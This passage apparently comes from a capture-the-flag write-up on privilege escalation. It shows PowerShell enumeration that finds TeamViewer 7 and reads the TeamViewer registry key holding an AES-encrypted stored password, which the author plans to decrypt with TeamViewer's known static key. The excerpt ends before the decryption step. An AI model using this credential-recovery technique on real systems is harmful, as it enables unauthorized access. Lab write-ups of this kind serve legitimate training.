 ### Privesc

Now that we got our initial shell, let us enumerate the system to find a way to escalate our privileges to root.

#### Enumeration

Looking around on the system, we can find that TeamViewer is installed.

```powershell
PS C:\Program Files (x86)> dir

    Directory: C:\Program Files (x86)

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        9/15/2018   3:28 AM                Common Files                                                          
d-----        9/15/2018   5:06 AM                Internet Explorer                                                     
d-----        2/23/2020   2:19 PM                Microsoft SQL Server                                                  
d-----        2/23/2020   2:15 PM                Microsoft.NET                                                         
d-----        2/19/2020   3:11 PM                MSBuild                                                               
d-----        2/19/2020   3:11 PM                Reference Assemblies                                                  
d-----        2/20/2020   2:14 AM                TeamViewer
[...]
```

Let us get the stored password and decrypt it.

#### Manually recovering the stored TV password

According to [this article](https://whynotsecurity.com/blog/teamviewer/), TeamViewer uses static keys for the en/decryption of the stored passwords. Because of this, we can simply read the stored password from the registry and use the known key (and IV) to decrypt it.

Let us first query the registry of TeamViewer:

```powershell
S C:\windows\system32\inetsrv> Get-ItemProperty -Path HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7


StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B9B7D1}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1584564540
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
```